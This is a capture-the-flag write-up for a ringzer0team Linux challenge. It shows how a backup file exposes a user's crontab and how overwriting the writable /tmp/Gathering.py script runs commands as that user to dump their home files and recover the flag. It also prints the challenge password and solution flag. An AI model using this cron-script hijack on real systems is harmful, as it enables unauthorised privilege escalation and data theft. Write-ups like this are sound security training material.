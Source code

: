 # ringzer0team.com -- SysAdmin Linux -- Level 8

## 1. Challenge

> Get access to the cypher account.   
>   
> User: morpheus  
> Password: VNZDDLq2x9qXCzVdABbR1HOtz  

Please connect to via SSH:

```bash
$ ssh morpheus@challenges.ringzer0team.com -p 10147
```

## 2. Solution

There are lots of things in `/backup` folder. 

When I check file `/backup/ca584b15ae397a9ad45b1ff267b55796`, I found something interesting:

```bash
morpheus@lxc-sysadmin:~$ cat /backup/ca584b15ae397a9ad45b1ff267b55796
var/spool/cron/                                             0000755 0000000 0000000 00000000000 12303165400 012433  5
ustar   root                            root
var/spool/cron/atspool/                                     0001770 0000001 0000001 00000000000 11764633605 014675  5       
ustar   daemon                          daemon
var/spool/cron/crontabs/                                    0001730 0000000 0000146 00000000000 12310210663 014720  5
ustar   root                            crontab
var/spool/cron/crontabs/cypher                              0000600 0001754 0000146 00000002146 12310210663 016466  0
ustar   cypher                          crontab                               
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.f7mcQy/crontab installed on Wed Mar 12 22:02:27 2014)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command
*/3 * * * * python /tmp/Gathering.py

var/spool/cron/atjobs/                                      0001770 0000001 0000001 00000000000 12303165436 014466  5
ustar   daemon                          daemon
var/spool/cron/atjobs/.SEQ                                  0000600 0000001 0000001 00000000002 12303165436 015101  0
ustar   daemon                          daemon                                                                              0
```

It seems that `/tmp/Gathering.py` will be run as cypher in every 3 minutes.

If we can modify `/tmp/Gathering.py`, we can run any commands as cypher.

However `vim`, `vi` are not allowed to use. Does it means we cannot modify `/tmp/Gathering.py`?

No! We can use `echo`:

```bash
morpheus@lxc-sysadmin:~$ echo -e "import os\nos.system('cat /home/cypher/* > /tmp/fuck')" > /tmp/Gathering.py
morpheus@lxc-sysadmin:~$ cat /tmp/Gathering.py
import os
os.system('cat /home/cypher/* > /tmp/fuck')
```

Wait for 3 minutes:

```bash
morpheus@lxc-sysadmin:~$ cat /tmp/fuck
BASE ?
RkxBRy1weXMzZ2ZjenQ5cERrRXoyaW8wUHdkOEtOego=
morpheus@lxc-sysadmin:~$ echo "RkxBRy1weXMzZ2ZjenQ5cERrRXoyaW8wUHdkOEtOego=" | base64 -d
FLAG-pys3gfczt9pDkEz2io0Pwd8KNz
```

Here's the flag.

